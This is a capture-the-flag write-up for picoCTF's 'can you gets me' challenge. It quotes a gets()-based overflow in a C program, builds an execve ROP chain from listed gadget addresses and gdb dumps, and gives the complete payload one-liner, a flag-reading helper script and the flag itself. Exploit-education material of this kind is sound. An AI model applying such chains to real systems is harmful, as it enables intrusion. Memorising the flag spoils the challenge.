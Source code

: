 # CorCan you gets me ?

>Can you exploit the following program to get a flag?
>You may need to think return-oriented if you want to program your way to the flag.
>You can find the program in /problems/can-you-gets-me_1_e66172cf5b6d25fffee62caf02c24c3d on the shell server. Source. 

### [~$ cd ..](../)

We are given the source of a vulnerable program, as well as the binary:

> ```c
>#include <stdio.h>
>#include <stdlib.h>
>#include <string.h>
>#include <unistd.h>
>#include <sys/types.h>
>
>#define BUFSIZE 16
>
>void vuln() {
>	char buf[16];
>	printf("GIVE ME YOUR NAME!\n");
>	return gets(buf);
>}
>
>int main(int argc, char **argv){
>
>	setvbuf(stdout, NULL, _IONBF, 0);
>
>
>	// Set the gid to the effective gid
>	// this prevents /bin/sh from dropping the privileges
>	gid_t gid = getegid();
>	setresgid(gid, gid, gid);
>	vuln();
>
>}
> ```

**TL; DR: It's a classical ROP attack**

## The payload

Knowing that the ASLR is enabled, that the stack is not executable and according to the simplicity of this program, we guessed, and it was confirmed
by a hint, that we had to exploit it using a Return-Oriented-Programming.

What is this ?

ROP-attack is a well-known and powerful way to exploit binaries, which is able to bypass ASLR and doesn't require any shellcode. The idea is quite simple: by chaining
some small groups of instructions, whe can build a valid longest series of instructions which can finally behave like a shellcode. These small groups are called "gadgets", and
they have to end with the instruction `ret`. Therefore, we can easily chain them on the top of the stack.

To find these gadgets, we used to 0vercl0k's tool: [rp](https://github.com/0vercl0k/rp/downloads)

Well, but which gadgets do we need ?
The man idea is to execute something like `execve("/bin/sh", NULL, NULL)`. To succeed, with then need to have the following values:
* `$eax=0xb`, 0xb begin the syscall code we expect
* `$ebx` contains the address of "/bin/sh"
* `$ecx=NULL` the arguments to pass to the command (don't care)
* `$edx=NULL` the address of the envionment variables (don't care)

To obtain the expected setting, we will push the values onto the stack and then pop them into registers. The outline of the payload is therefore:

* fill the buffer
* @gadget(pop eax; ret)
* 11
* @gadget(pop ebx; ret)
* @"/bin/sh"
* @gadget(pop ecx; ret)
* 0
* @gadget(pop edx; ret)
* 0
* interrupt

Indeed, these values will be placed on the top of the stack as `vuln` ends, that's the reason why we need to pop them.

### Address of "/bin/sh"

"/bin/sh" doesn't appear in the program, and we have to find a way to execute the expected command. To get around the problem, we decided to create our own command
and to use a constant string in `rodata`:

> ```sh
>% readelf -x .rodata ./gets|head -n 20
>
>Vidange hexadécimale de la section « .rodata » :
>0x080bb320 03000000 01000200 47495645 204d4520 ........GIVE ME 
>0x080bb330 594f5552 204e414d 4521002e 2e2f6373 YOUR NAME!.../cs
>0x080bb340 752f6c69 62632d73 74617274 2e630046 u/libc-start.c.F
>0x080bb350 4154414c 3a206b65 726e656c 20746f6f ATAL: kernel too
>0x080bb360 206f6c64 0a000000 5f5f6568 64725f73  old....__ehdr_s
>0x080bb370 74617274 2e655f70 68656e74 73697a65 tart.e_phentsize
>0x080bb380 203d3d20 73697a65 6f66202a 474c2864  == sizeof *GL(d
>0x080bb390 6c5f7068 64722900 46415441 4c3a2063 l_phdr).FATAL: c
>0x080bb3a0 616e6e6f 74206465 7465726d 696e6520 annot determine 
>0x080bb3b0 6b65726e 656c2076 65727369 6f6e0a00 kernel version..
>0x080bb3c0 756e6578 70656374 65642072 656c6f63 unexpected reloc
>0x080bb3d0 20747970 6520696e 20737461 74696320  type in static 
>0x080bb3e0 62696e61 72790000 67656e65 7269635f binary..generic_
>0x080bb3f0 73746172 745f6d61 696e002f 6465762f start_main./dev/
>0x080bb400 66756c6c 002f6465 762f6e75 6c6c0000 full./dev/null..
>0x080bb410 7365745f 74687265 61645f61 72656120 set_thread_area 
>0x080bb420 6661696c 65642077 68656e20 73657474 failed when sett
>0x080bb430 696e6720 75702074 68726561 642d6c6f ing up thread-lo
> ```

It's important here to choose a string ending with a null byte. We choosed here the string "ull" located at `0x080bb40b`. We then had to create
a script named "ull" executing the expected command (i.e `cat` the flag)

## Find gadgets

We then used to program `rp-lin-x86` to find the expected gadgets:

> ```sh
>% ./rop86 --file gets -r 1 --unique|grep "pop eax"
>0x080d244e: pop eax ; call dword [edi+0x4656EE7E] ;  (1 found)
>0x0809ca62: pop eax ; jmp dword [eax] ;  (4 found)
>0x080b81c6: pop eax ; ret  ;  (1 found)
>```

Gadget `pop $eax`: **0x080b81c6**

> ```sh
>% ./rop86 --file gets -r 1 --unique|grep "pop ebx" 
>0x080505a3: pop ebx ; jmp eax ;  (6 found)
>0x0804cec7: pop ebx ; rep ret  ;  (1 found)
>0x080481c9: pop ebx ; ret  ;  (181 found)
>0x080d353c: pop ebx ; retn 0x06F9 ;  (1 found)
> ```

Gadget `pop $ebx`: **0x080481c9**

> ```sh
>% ./rop86 --file gets -r 1 --unique|grep "pop ecx" 
>0x080de955: pop ecx ; ret  ;  (1 found)
> ```

Gadget `pop $ecx`: **0x080de955**

> ```sh
>% ./rop86 --file gets -r 1 --unique|grep "pop edx" 
>0x0806f02a: pop edx ; ret  ;  (2 found)
> ```

Gadget `pop $edx`: **0x0806f02a**

> ```sh
>% ./rop86 --file gets -r 1 --unique|grep "int 0x80"
>0x0806cc23: add byte [eax], al ; int 0x80 ;  (3 found)
>0x0806cc25: int 0x80 ;  (8 found)
>0x0806f630: int 0x80 ; ret  ;  (1 found)
>0x0806cc20: mov eax, 0x00000001 ; int 0x80 ;  (1 found)
>0x0807a9d9: mov eax, 0x00000077 ; int 0x80 ;  (1 found)
>0x0807a9d0: mov eax, 0x000000AD ; int 0x80 ;  (1 found)
>0x0806f62f: nop  ; int 0x80 ;  (1 found)
>0x0806cc1f: or byte [eax+0x00000001], bh ; int 0x80 ;  (1 found)
>0x080b6ed7: push es ; int 0x80 ;  (1 found)
> ```

Gadget `pop $edx`: **0x0806f630**

And finally, the payload becomes:

* 0x080b81c6 ;pop eax
* 0x0000000b ;execve syscall
* 0x080481c9 ;pop ebx
* 0x080bb40b ;"ull"
* 0x080de955 ;pop ecx
* 0x00000000 ;NULL
* 0x0806f02a ;pop edx
* 0x00000000 ;NULL
* 0x0806f630 ;interrupt

## Fill the buffer

By sending some 'A's and breaking after the call the `gets`, we can see that 28 bytes are needed to fill the buffer:

> ```
>gdb-peda$ info reg ebp
>ebp            0xffffd198	0xffffd198
>gdb-peda$ x/30wx $esp
>0xffffd170:	0xffffd180	0x080eaf84	0x00000000	0x080481a8
>0xffffd180:	0x41414141	0x41414141	0x41414141	0x41414141
>0xffffd190:	0x41414141	0x00000300	0xffffd1b8	0x080488e9
>0xffffd1a0:	0x080ea00c	0x00000045	0x00001000	0x000003e8
>0xffffd1b0:	0x080ea070	0xffffd1d0	0x00001000	0x08048b21
>0xffffd1c0:	0x080ea00c	0x00000045	0x00001000	0x08048b21
>0xffffd1d0:	0x00000001	0xffffd294	0xffffd29c	0xffffd1f4
>0xffffd1e0:	0x00000000	0x00000001
> ```

Let's feed the stdin with the payload and break at the end of `vuln`:

> ```
>gdb-peda$ x/12wx $esp
>0xffffd19c:	0x080b81c6	0x0000000b	0x080481c9	0x080bb40b
>0xffffd1ac:	0x080de955	0x00000000	0x0806f02a	0x00000000
>0xffffd1bc:	0x0806f630	0x080ea000	0x00000045	0x00001000
> ```

Perfect!

## Exploit

Since the command "ull" is not a regular command we need to create it:

> ```
>% cd /tmp
>% nano ull
>	#!/bin/sh
	cat /problems/can-you-gets-me_1_e66172cf5b6d25fffee62caf02c24c3d/flag.txt
>% chmod +x ull
>% export PATH=/tmp:$PATH
>% python -c "print 'A' * 28 + '\xc6\x81\x0b\x08\x0b\x00\x00\x00\xc9\x81\x04\x08\x0b\xb4\x0b\x08\x55\xe9\x0d\x08\x00\x00\x00\x00\x2a\xf0\x06\x08\x00\x00\x00\x00\x30\xf6\x06\x08'" | /problems/can-you-gets-me_1_e66172cf5b6d25fffee62caf02c24c3d/gets>
> ```

FLAG: **picoCTF{rOp_yOuR_wAY_tO_AnTHinG_700e9c8e}**
